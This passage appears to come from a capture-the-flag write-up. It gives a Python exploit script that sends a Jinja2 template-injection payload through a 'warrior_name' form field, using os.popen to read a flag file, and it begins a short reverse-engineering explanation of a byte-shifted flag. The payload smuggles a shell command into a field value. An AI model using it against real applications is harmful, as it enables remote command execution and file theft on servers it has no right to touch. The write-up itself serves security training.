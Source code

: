 ### Exploit Code
```python
import re
import argparse
import requests

CMD = "cat /app/flag.txt"
PAYLOAD = "{{self.__init__.__globals__.__builtins__.__import__('os').popen('" + CMD + "').read()}}"

def main(base_url: str):

	with requests.Session() as session:
		# Get session token
		session.post(f"{base_url}/begin", {"warrior_name": PAYLOAD } )

		# Send API request to vulnerable endpoint
		response = session.post(f"{base_url}/battle-report")

		match = re.search("HTB{.*}", response.text)
		print(f"Flag: {match.group(0)}")

if __name__ == '__main__':
	parser = argparse.ArgumentParser()
	parser.add_argument("url")
	args = parser.parse_args()

	main(args.url)
```

### References
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)

# Rev

## Encrypted Scroll

Opening the executable in Ghidra we can see that the `decrypt_message` function decrypts the flag by subtracting 1 from the ASCII value of the flag. So to get the flag we also have to subtract 1 from the value of the flag. Also keeping in mind that the flag is stored in the Little-endian format we will have to reverse each string in order to get the flag.
